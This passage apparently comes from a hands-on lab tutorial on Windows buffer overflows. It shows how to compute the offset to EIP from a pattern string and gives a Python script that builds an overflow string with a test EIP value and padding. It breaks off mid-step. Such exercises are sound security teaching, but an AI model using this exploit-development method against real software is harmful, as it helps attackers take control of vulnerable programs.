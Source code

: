   ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/23.png)
- Each row has 100 four-byte sequences; a total of 400 bytes.
- P is the 16th letter of the alphabet, so there are 15 complete rows before '1PP8'.
- So the total number of bytes before '1PP8' is.
  ```bash
  15*400 + 18*4 + 2
  ```

#### Targeting the EIP Precisely

- Let's make sure we can hit the EIP.
- On your Kali Linux machine, in a Terminal window, execute this command.
  ```bash
  nano ezm-eip2
  ```
- In the nano window, type or paste this code.
  ```python
  #!/usr/bin/python
  prefix = 'A' * (20000 + 15*400 + 18*4 + 3)
  eip = 'BCDE'
  padding = 'F' * (30000 - len(prefix) - 4)
  attack = prefix + eip + padding
  print attack
  ```
  ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/24.png)
- On your Kali Linux machine, in a Terminal window, execute these commands.